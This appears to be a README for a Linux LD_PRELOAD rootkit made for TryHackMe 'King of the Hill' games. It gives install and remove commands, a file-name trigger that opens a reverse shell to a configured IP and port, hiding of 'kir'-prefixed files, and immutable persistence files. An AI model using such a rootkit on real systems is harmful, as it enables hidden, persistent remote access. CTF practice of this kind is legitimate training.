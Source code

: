 <h1> This is a rootkit for playing king of the hill on tryhackme </h1>

This rootkit is based on this tutorial:
<h1> https://h0mbre.github.io/Learn-C-By-Creating-A-Rootkit/# </h1>

Compile and insert the rootkit by running:
<pre> bash make.sh </pre>
(Remember you need to change the port and ip address in the script)

<h1> Get a reverse shell with: </h1>
<pre> touch __UNO & ls & rm __UNO </pre>

hide files:
<pre> everything beginning wit "kir" gets hidden </pre>

The files:
<pre>
/root/king.txt
/etc/ld.so.preload
/lib/libc.kir.so.6
</pre>
will be immutable in the future

Remove the rootkit with:
<pre> bash remove.sh </pre>
